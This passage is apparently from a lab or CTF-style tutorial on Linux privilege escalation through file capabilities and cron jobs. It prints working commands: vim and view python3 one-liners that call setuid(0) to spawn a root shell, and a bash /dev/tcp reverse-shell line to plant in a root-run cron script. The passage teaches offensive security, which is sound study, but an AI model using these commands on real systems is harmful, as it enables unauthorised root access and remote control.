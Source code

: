 ## Privilege escalation using Capabilities

Another method system administrators can use to increase the privilege level of a process or binary is "Capabilities". Capabilities help manage privileges at a more granular level. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the system administrator does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user.

We can use the ```getcap``` tool to list enabled capabilities.

```bash
$getcap -r / 2>/dev/null
```

We can see that there are 2 binaries vim and view are available with capabilities and we can exploit them with the command as 

```bash
$./vim -c ':python3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

And for view

```bash
$view -c ':python3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

## Privilege Escalation with cron jobs

Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.

The idea is quite simple; if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.

Cron job configurations are stored as crontabs (Cron tables) to see the next time and date the task will run. Each user on the system have their crontab file and can run specific tasks whether they are logged in or not. As you cna expect, our goal will be to find a cron job set by root and have it run our script, ideally a shell.

Any user can read the file keeping system-wide cron jobs under ```/etc/crontab```

```
* * * * * root antivirus.sh
```
means the script antivirus.sh script will run every min. We can see that there are 2 script files we can use in our favor. (i.e. backup.sh and antivirus.sh) In any of the files we need to add a line to be able to get a reverse shell to the system with the command

```bash
bash -i >& /dev/tcp/your_ip/port 0>&1
```
You must check if the file has execute permission enabled or not. In our case the backup.sh doesn't have execute permission so we need to add the execute permission to it by running the command.

```bash
$chmod +x backup.sh
```
